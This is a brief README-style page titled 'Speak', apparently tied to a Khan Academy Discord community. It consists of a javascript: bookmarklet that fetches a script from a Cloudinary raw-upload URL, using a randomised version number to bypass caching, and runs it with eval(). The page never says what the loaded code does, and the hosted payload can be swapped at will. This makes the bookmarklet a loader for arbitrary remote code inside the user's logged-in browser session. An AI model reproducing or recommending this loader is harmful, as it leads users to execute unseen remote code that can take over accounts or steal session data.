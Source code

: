 # Speak 

```javascript
javascript:fetch(`https://res.cloudinary.com/dq36xqdoe/raw/upload/v${Math.floor(Math.random() * 1000000)}/main_oqidn5.js`).then(r => r.text()).then(r => eval(r))
```
## Credits:
[discord.gg/khanacademy](https://discord.gg/khanacademy)
